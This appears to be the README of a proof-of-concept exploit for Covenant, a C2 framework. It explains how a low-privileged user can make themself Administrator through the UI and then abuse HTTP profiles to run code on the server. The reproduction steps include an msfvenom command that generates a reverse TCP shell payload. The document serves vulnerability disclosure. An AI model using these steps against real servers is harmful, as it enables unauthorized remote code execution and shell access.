 # Covenant Low Privileged User RCE

![](poc.gif)

Both the current [master](https://github.com/cobbr/Covenant/tree/5decc3ccfab04e6e881ed00c9de649740dac8ad1) and [dev](https://github.com/cobbr/Covenant/tree/bcb9a6c79ff629f939e22bb314ff2d2d9a7fe7bb) branches of Covenant are vulnerable to an escalation of privilege from User to Administrator. The API [blocks editing roles](https://github.com/cobbr/Covenant/blob/5decc3ccfab04e6e881ed00c9de649740dac8ad1/Covenant/Controllers/ApiControllers/CovenantUserApiController.cs#L298) unless you are an Administrator, however in the UI itself it's [possible for a User to give themself the Administrator role](https://github.com/cobbr/Covenant/blob/5decc3ccfab04e6e881ed00c9de649740dac8ad1/Covenant/Components/CovenantUsers/EditCovenantUser.razor).

With the Administrator role, the user has access to the most powerful feature of Covenant, the ability to create HTTP profiles. This feature is [restricted to Administrators](https://github.com/cobbr/Covenant/blob/5decc3ccfab04e6e881ed00c9de649740dac8ad1/Covenant/Core/CovenantService.cs#L3616). Although there is no built-in way to get a shell on a Covenant server, the HTTP profiles feature essentially enables running C# code on the server as a way of customizing traffic sent to and from implants.

The C# code is limited by the fact that the built-in Covenant compiler [restricts the `System` namespace](https://github.com/cobbr/Covenant/blob/5decc3ccfab04e6e881ed00c9de649740dac8ad1/Covenant/Core/Common.cs#L85) to `System.Private.CoreLib.dll` which means `Process` can't be directly used. However [previous excellent research](https://web.archive.org/web/20220126104152/https://blog.null.farm/hunting-the-hunters) on Covenant by 0xcoastal found a blog post by Tim Malcolmvetter that showed that only the `Activator` and `Assembly` classes are required to perform process injection of arbitrary .NET assemblies.

The privilege escalation part of this attack must be performed manually as only the Blazor UI is vulnerable and not the API, and the Blazor stuff is a pain to automate.

The RCE is automated by `covenant_rce.py`, which interacts with the API to create a HTTP profile, a HTTP listener, then communicates with the listener to trigger a provided .NET assembly to run.

## Reproduction

1. In the Covenant UI, escalate privileges from User to Administrator by clicking Users -> Your Username -> Roles -> Administrator -> Edit Roles
2. In `covenant_rce.py`, edit variables at the top of the script
3. Generate csharp shellcode, e.g. `msfvenom -f csharp -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=443 EXITFUNC=thread`
4. Copy shellcode buffer into `Shellcode.cs` and compile the `ShellcodeAssembly` project in Release mode in Visual Studio
5. Run `python covenant_rce.py`

## References

* https://web.archive.org/web/20220126104152/https://blog.null.farm/hunting-the-hunters
* https://github.com/malcomvetter/ManagedInjection
